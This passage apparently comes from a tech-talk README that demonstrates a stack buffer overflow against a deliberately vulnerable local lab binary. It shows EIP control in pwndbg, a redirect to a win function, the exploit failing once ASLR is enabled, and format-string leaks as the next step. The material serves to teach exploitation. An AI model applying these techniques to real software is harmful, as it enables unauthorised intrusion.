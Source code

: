 Let's break right before the `ret` so we can see if we control the stack properly.

```
pwndbg> b *vuln_func+65
pwndbg> c 
```

Heading back over to the exploit, send it over by just hitting enter. Now you should see that the next address the program will go to is the 4 B's we overwrote the old eip with.

```
pwndbg> x/dx $esp
0xffffd5ac:     0x42424242
```

So now we can control `eip`, let's pivot to the win function (we could to shellcode here, but we will leave that to another talk as well). All we need to do is put the address of the win function (`0x0804851b`).
Go into our `pwn_noASLR.py` and run the `hack_it()` function.

```
[12:43:39] root@wk-ishaw-04:~/Work/techtalks/defeat_aslr# ls
core  makefile  pwn_noASLR.py  README.md  vuln  vuln.c
[12:43:40] root@wk-ishaw-04:~/Work/techtalks/defeat_aslr# python3.8 pwn_noASLR.py
[+] Starting local process './vuln': pid 2388
[12:43:45] root@wk-ishaw-04:~/Work/techtalks/defeat_aslr# ls
core  makefile  pwn_noASLR.py  README.md  test.txt  vuln  vuln.c
```

As you can see, we triggered the win function, as the `test.txt` file has been created.

## With ASLR

Now if we recompile with ASLR activted:
```
# make clean
# echo 1 | sudo tee /proc/sys/kernel/randomize_va_space
# make
```

We see that the exploit no longer works.
```
ubuntu@ip-172-31-83-147:~/techtalk/defeat_aslr$ ls
README.md  core  makefile  pwn_noASLR.py  vuln  vuln.c
ubuntu@ip-172-31-83-147:~/techtalk/defeat_aslr$ python3 pwn_noASLR.py
[+] Starting local process './vuln': pid 12991

ubuntu@ip-172-31-83-147:~/techtalk/defeat_aslr$ ls
README.md  core  makefile  pwn_noASLR.py  vuln  vuln.c
```

So what we need is a memory leak to determine the new address of the target function at each running.

### Memory Leak

One clever way of leaking memory if there is a `printf` statement available (such as in our `vuln_func`) is a format string vulnerability. Here is a great [paper](https://cs155.stanford.edu/papers/formatstring-1.2.pdf) on the subject of format string vulnerabilities.
